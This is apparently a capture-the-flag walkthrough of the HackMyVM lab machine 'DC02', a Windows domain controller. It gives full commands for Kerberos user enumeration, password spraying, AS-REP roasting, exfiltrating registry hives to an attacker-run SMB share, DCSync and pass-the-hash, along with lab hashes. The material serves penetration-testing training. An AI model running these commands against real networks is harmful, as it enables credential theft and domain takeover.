 
![dc02](https://github.com/user-attachments/assets/51f02db3-68ff-4ca1-a504-8cbff7c05ab8)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [josemlwdf](https://hackmyvm.eu/profile/?user=josemlwdf)         | [HackMyVm](https://hackmyvm.eu)     | Medium           | Windows   |

---






- I start with a scan of the open ports.
    
    ```
    nmap -p- --open --min-rate 5000 -sS -Pn 10.0.2.4 -oG scan
    ```
    
    ![Pasted image 20241117162625](https://github.com/user-attachments/assets/c3523df1-7d22-4d75-aa1d-7bcc7b33d816)

    
- I continue with a scan of the versions and technologies that are running on the open ports that we have found.
    
    ```
    nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49671,49686 -sCV -Pn 10.0.2.4 -oN ports
    ```

	![Pasted image 20241117163045](https://github.com/user-attachments/assets/68b0d7a3-441c-47d5-bfbc-8035dd97d84f)

    
- Using kerbrute I search for valid users in the system.
	
	```python
	./kerbrute_linux_386 userenum --dc 10.0.2.5 -d SOUPEDECODE.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
	```
	
	![Pasted image 20241117214816](https://github.com/user-attachments/assets/e7a693ff-e980-412b-a1f4-d4811ca1cacc)


- With the found users I check if any of them have the same user name as their password. I find that charlie meets this and then I can list resources by smb.
	
	```python
	netexec smb 10.0.2.5 -u users -p users --continue-on-success | grep -v "[-]"
	```
	
	![Pasted image 20241117215026](https://github.com/user-attachments/assets/c61c8e26-81bd-4927-af5c-5446bbd23d2b)


	![Pasted image 20241117215122](https://github.com/user-attachments/assets/12973b7b-ec0a-40af-9f2a-3150b36fd1e9)


- By having read permissions on the IPC$ folder, I can list system users. I pass the users found by kerbrute in case any user uses as password the same user name but this time I can not find any.

	```python
	impacket-lookupsid  SOUPEDECODE.LOCAL/charlie:charlie@10.0.2.5
	
	/opt/kerbrute_linux_386 userenum --dc 10.0.2.5 -d SOUPEDECODE.LOCAL  -u usuarios valid_users -p valid_users
	
	netexec smb 10.0.2.5 -u valid_users -p valid_users --continue-on-success | grep -v "[-]"
	```

- I am trying to get TGT tickets from users that have “Do not require Kerberos preauthentication” set. I get an encrypted hash of the user zximena448.
	
	```python
	impacket-GetNPUsers SOUPEDECODE.LOCAL/ -no-pass -usersfile valid_users | grep -v "[-]"
	```
	
	![Pasted image 20241118104532](https://github.com/user-attachments/assets/3f0fded8-84f3-4a00-9b24-0a9ddb14ae12)


- I try to crack the hash and get the user's password in clear text.

	```
	john --wordlist=/usr/share/wordlist/rockyou.txt asrproast
	```
	
	![Pasted image 20241118155304](https://github.com/user-attachments/assets/06170f92-27d9-4999-ab82-352eb1587fd9)


- With this new credential I check if I can list resources by smb. Seeing that I am able to list all the shared folders I move to this user's desktop and get to read the first flag.
	
	![Pasted image 20241118105032](https://github.com/user-attachments/assets/4c1b0452-c3cc-4156-b986-86bcecf89efe)

	![Pasted image 20241118105059](https://github.com/user-attachments/assets/7680a829-6bbf-427d-8d92-03291ed7a277)

	![Pasted image 20241118111824](https://github.com/user-attachments/assets/d49a0e08-793e-4f33-805a-fc26eaabf45a)


- With these credentials I enumerate the system and I see that the user zximena448 belongs to the “Backup Operators” group. Thanks to this I can make copies and restore any file on the system.

	```python
	ldapdomaindump -u 'SOUPEDECODE.LOCAL\zximena448' -p 'internet' 10.0.2.6
	```
	
	![Pasted image 20241118162943](https://github.com/user-attachments/assets/b2dc3d22-537f-49c9-aa5f-375009a30d24)


* I share a resource by smb on my machine to make a copy of system, security and sam from the victim to my machine. To do this I make use of the tool [backup_dc_registry](https://github.com/horizon3ai/backup_dc_registry) and then with secretsdump I show the system hashes.

	```python
	impacket-smbserver recurso $(pwd) -smb2support 
	
	./reg.py zximena448:'internet'@10.0.2.5 backup -p '\\10.0.2.15\recurso'
	
	impacket-secretsdump LOCAL -system SYSTEM -security SECURITY -sam SAM
	```
	
	![Pasted image 20241118120358](https://github.com/user-attachments/assets/7eaf19dd-d0aa-4e0b-8b2d-a9160e127950)


- With the hash found for the user MACHINE.ACC I check if it belongs to any of the previously found users. I see that it is valid for user DC01$. 
	
	```python
	crackmapexec  smb 10.0.2.5 -u /home/rufo/nmap/users  -H "e74903d9cb1e9cc65339d50fe168a349" | grep -v "[-]"
	```
	
	![Pasted image 20241118130310](https://github.com/user-attachments/assets/315556f4-d0aa-4fa0-a8f8-734ac4a4307d)


- With these credentials I do a DCSync attack and manage to obtain all the hashes of the system.
	
	```python
	netexec  smb 10.0.2.5 -u "DC01$"  -H "e74903d9cb1e9cc65339d50fe168a349" --ntds
	```
	
	![Pasted image 20241118131237](https://github.com/user-attachments/assets/09bcc316-7b87-4bf6-8b0e-c47ab72eaf15)


- I do pass-the-hash (PtH) with the Administrator users and I manage to read the second flag.
	
	![Pasted image 20241118131514](https://github.com/user-attachments/assets/c3b5be4b-4e7a-468b-915a-a739a22cfc4c)

	![Pasted image 20241118131549](https://github.com/user-attachments/assets/e9b48170-b75d-499a-96ec-af689dda1aac)

	
	```python
	evil-winrm -i 10.0.2.5 -u Administrator -H "8982babd4da89d33210779a6c5b078bd"
	```
	
	![Pasted image 20241118131656](https://github.com/user-attachments/assets/c283cd6c-6fef-46d5-9462-8a14c929a936)




